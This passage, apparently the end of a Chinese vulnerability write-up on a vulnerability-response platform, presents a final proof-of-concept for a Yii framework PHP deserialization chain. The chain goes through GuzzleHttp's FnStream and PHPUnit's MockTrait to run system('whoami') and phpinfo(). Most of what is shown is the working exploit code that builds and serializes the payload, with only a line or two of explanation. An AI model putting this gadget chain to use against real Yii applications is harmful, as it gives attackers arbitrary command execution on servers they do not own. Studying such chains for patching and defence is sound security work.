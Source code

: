 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/WdbaA7b2IE6D8InhXuGX2q6Cbw7zhMJL58BuXYeK0DVf8cjXEeniaw4ibcZlGwXyDQx3YcXChlyElEQx5RPJYjGQ/640?wx_fmt=png)

利用这个方法. 修改一下 poc，加上 phpinfo();

最终 poc
------

```
<?php
namespace PHPUnit\Framework\MockObject{
    class MockTrait {
        private $classCode = "system('whoami');phpinfo();";
        private $mockName = "anything";
    }
}
namespace GuzzleHttp\Psr7 {
    use PHPUnit\Framework\MockObject\MockTrait;
    class FnStream {
        var $_fn_close;
        function __construct() {
            $this->_fn_close = array(
                new MockTrait(),
                'generate'
            );
        }
    }
}
namespace yii\db {
    use GuzzleHttp\Psr7\FnStream;
    class BatchQueryResult {
        // 需要控制的成员属性
        private $_dataReader;
        function __construct() {
            $this->_dataReader  = new FnStream();
        }
    }
    $b = new BatchQueryResult();
    file_put_contents("poc.txt", serialize($b));
}
```

整理一下反序列化链

![](https://mmbiz.qpic.cn/sz_mmbiz_png/WdbaA7b2IE6D8InhXuGX2q6Cbw7zhMJL6RqhPp7ibWFcwqfvnTK3zbsYZpz7x4V82ssb1wzFJMIutibhwkUjh4RQ/640?wx_fmt=png)

  

---

END

  

【版权说明】本作品著作权归 JOHNSON 所有，授权补天漏洞响应平台独家享有信息网络传播权，任何第三方未经授权，不得转载。

  